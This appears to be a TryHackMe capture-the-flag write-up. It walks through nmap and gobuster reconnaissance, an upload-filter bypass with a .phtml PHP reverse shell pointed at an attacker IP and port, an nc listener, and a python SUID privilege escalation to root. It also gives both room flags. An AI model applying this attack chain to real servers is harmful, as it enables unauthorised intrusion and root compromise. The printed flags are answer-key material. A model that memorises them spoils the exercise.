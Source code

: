 # Initial 
'''
start machine

nmap -sC -sV "machines IP" -oN nmap/initial.txt
'''

# Nmap Output
'''
# Nmap 7.94 scan initiated Sun Jan 21 14:31:42 2024 as: nmap -sC -sV -oN nmap/initial.txt 10.10.25.147
Nmap scan report for 10.10.25.147
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 21 14:33:15 2024 -- 1 IP address (1 host up) scanned in 93.14 seconds

'''

# Gobuster

Using gobuster for scanning directori web

'''
gobuster dir -u http://IPMACHINE -w "wordlist-path"

found /panel dan /uploads

'''

# Reverse shell 

Reverse shell I using from wordlist

'''
/usr/share/webshells/php/php-reverse-shell.php

'''

and I edit some parameter like IP local attacker dan port

'''
et_time_limit (0);
$VERSION = "1.0";
$ip = '10.6.23.159';  // CHANGE THIS
$port = 9999;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
'''
and change format file from .php to .phtml or .php3

Using NC for listening port dan reverse shell

'''
nc -lnvp 9999

'''

After upload file success, go to /uploads dan click the file 

and go back to the terminal and see nc success listening using python for stabilise shell

'''
python -c 'import pty;pty.spawn{"/bin/bash")'

find / -type f -name user.txt

'''

'''
the flag
THM{y0u_g0t_a_sh3ll}
'''

# Privilage Escalation

'''
find / -type f -user root -perm -4000 2>/dev/null
'''

find the SUID binaries, and /usr/bin/python is weird, and i go https://gtfobins.github.io/ to search privelage escalation for python SUID. 

'''
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
'''

And wala, your shell become root, and the last think search the root flag

'''
/root/
cat root.txt

THM{pr1v1l3g3_3sc4l4t10n}
'''